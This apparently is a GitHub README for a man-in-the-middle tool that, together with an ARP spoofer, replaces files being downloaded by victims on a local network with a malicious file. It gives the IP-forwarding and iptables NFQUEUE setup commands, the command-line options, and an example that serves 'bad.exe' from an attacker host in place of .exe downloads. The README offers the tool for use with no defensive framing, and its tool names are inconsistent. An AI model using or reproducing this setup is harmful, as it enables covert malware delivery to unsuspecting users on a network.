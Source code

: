 # File_replacer
It replaces files while downloading, use it with arp-spoofer to perform mitm attacks.

Set iptables and linux ip forwardng rules before using file_replacer:


To set linux ip forwarding to true:


echo 1 > /proc/sys/net/ipv4/ip_forward


or


sysctl -w net.ipv4.ip_forward=1

⚠️ Set false or 0 after using code_injector


echo 0 > /proc/sys/net/ipv4/ip_forward


or


sysctl -w net.ipv4.ip_forward=0


To set iptables rule:


iptables -I FORWARD -j NFQUEUE --queue-num 0



⚠️ flush iptables rule after using code_injector


iptables --flush

Usage: file_interceptor.py [options]

Options:
  -h, --help            show this help message and exit
  -m MALACIOUSFILE, --malacious-file=MALACIOUSFILE
                        Enter Malacious file url (eg: -mf
                        http://192.168.1.11/malware.exe
  -f FILETYPE, --file-type=FILETYPE
                        Add file type which you want to replece on download
                        (Eg: -f exe

![Screenshot 2023-01-03 115007](https://user-images.githubusercontent.com/109381227/210309124-287f9e27-1b69-4b75-8cb4-eebc0537fbd3.jpg)

Example: python3 file_interceptor.py -m http://192.168.1.11/bad.exe -f exe

![Screenshot 2023-01-03 115248](https://user-images.githubusercontent.com/109381227/210309176-ef173376-6fa6-4a71-81c1-f6a6b997f160.jpg)

